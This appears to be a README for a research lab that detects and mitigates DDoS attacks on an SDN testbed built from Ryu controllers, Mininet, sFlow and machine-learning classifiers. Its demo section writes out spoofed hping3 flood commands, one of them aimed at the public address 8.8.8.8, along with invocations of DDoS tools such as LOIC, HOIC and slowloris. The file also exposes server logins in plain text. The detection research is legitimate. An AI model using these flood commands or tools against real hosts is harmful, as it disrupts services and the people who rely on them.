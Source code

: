 # I. Server administration information:
VMware:
	Product: VMware® Workstation 15 Pro
	Version: 15.5.0 build-14665864
Ryu Controller:
	Distributor ID: Ubuntu
	Description: Ubuntu 19.10
	Release: 19.10
	Codename: eoan
	IP: 192.168.0.104
	User: ryu
	Pass: ryu
Mininet:		
	Distributor ID:	Ubuntu
	Description: Ubuntu 18.04.6 LTS
	Release: 18.04
	Codename: bionic
	IP:192.168.0.100
	User: Will
	Pass: CuLy@944


# II. Build SDN network system
1. Ryu Controller
	Step 1: Goto my project
		cd my_project/controller/
	Step 2: Start Controller SDN
		In this directory, I have created multiple Controller files, each corresponding to different machine learning algorithms used for testing in various scenarios of detecting and mitigating DDoS attacks. Specifically:
		- DT_controller-detect.py: this file uses a Decision Tree algorithm so the system can detect DDoS attacks.
		- KNN_controller-detech.py: uses a K-Nearest Neighbors algorithm. algorithm so the system can detect DDoS attacks.
		- RF_controller.py: uses a Randowm Forest algorithm. algorithm so the system can detect DDoS attacks.
		- DTree_Controller.py: this file uses a Decision Tree algorithm so the system can detect and mitigate DDoS attacks.
		- KNN_Controller.py: uses a K-Nearest Neighbors algorithm so the system can detect and mitigate DDoS attacks.
		Controller normal (The controller operates normally and does not have an integrated attack detection and mitigation module):
			ryu-manager ryu.app.simple_switch_13,ryu.app.ofctl_rest flowmanager/flowmanager.py    --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
		Controller detect:
			DTree: ryu-manager DT_controller-detect.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
			KNN:   ryu-manager KNN_controller-detech.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
		Controller detect & mitigation:
			DTree: ryu-manager DTree_Controller.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
			KNN:   ryu-manager KNN_Controller.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
	Step 3: Controller management site
		http://192.168.0.104:8080/home/index.html
		
2. Mininet
	Step 1: Goto my project
		cd project/mininet
	Step 2: Start sflow service
		sudo ./sflow/sflow-rt/start.sh
		After starting sflow, you should open another command line on linux to initialize mininet
	Step 3: Start mininet
		Within the scope of my experiment, I created 2 mininet files in python3 language. Furthermore, I use the command in linux to create mininet virtual devices, details are as below:
		- Topology 1: 12 hosts and 6 switches
			sudo mn --custom topology.py,sflow/sflow-rt/extras/sflow.py --link tc,bw=10 --controller=remote,ip=192.168.0.104:6653 --topo mytopo
		- Topology 2: 6 hosts and 3 switches
			sudo mn --custom topology2.py,sflow/sflow-rt/extras/sflow.py --controller=remote,ip=192.168.0.104:6653 --topo mytopo
		- Topology commandline: Linux commandline
			sudo mn -c && sudo mn --custom sflow/sflow-rt/extras/sflow.py --link tc,bw=10 --controller=remote,ip=192.168.0.104:6653 --topo tree,depth=2,fanout=2
		Here, you only use 1 of 3 topologies to test the system.
	Step 4: Make Mininet access Internet
		I wrote a simple script to help mininet's virtualized devices access directly to the Internet. I use it to experiment with hosts inside the system attacking the Internet.
			source /home/will/project/mininet/route-topology2.mn
	Step 5: SDN infrastructure monitoring website
		http://192.168.0.100:8008/html/index.html#status
		http://192.168.0.100:8008/app/mininet-dashboard/html/index.html#charts


# III. Demo
	Start the web on any host, here I use host 1 as the web server
		python -m SimpleHTTPServer 80
	Test Web Server: using another host to request to host 1.
		wget http://10.0.0.1
	Icmp flood command: h6 hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood h1
	SYN flood command: 	h6 hping3 -S -V -d 120 -w 64 -p 80 --rand-source --flood h1
	Udp flood command:  h6 hping3 -2 -V -d 120 -w 64 -p 80 --rand-source --flood h1
	attack Controller:  h6 hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood 10.0.0.104
	attack Public	 :  h6 hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood 8.8.8.8
	other tool attack: I use some cehv11 ddos attack tools
		cd project/tool-dos/tool-attack/
		wine Hoic.exe
		mono LOIC.exe
		python pyloris.py
		python3 slowloris.py 10.0.0.1 -p 80
		python torhammer.py -t 10.0.0.1
		python torhammer.py -t 10.0.0.1 -p 80
		python3 saphyra http://10.0.0.1/ (full CPU)
		python3 RDDoS_Tool.py => select 2 => IP - port

# In addition to using the CIC dataset, during the process of experimenting with detecting DDoS attacks, I collected and added to the dataset.
	Normal Dataset:
		Controller: ryu-manager collect_benign_trafic.py
		Mininet: sudo python3 generate_benign_trafic.py 
	DDoS Dataset:
		Controller: ryu-manager collect_ddos_trafic.py
		Mininet: sudo python3 generate_ddos_trafic.py
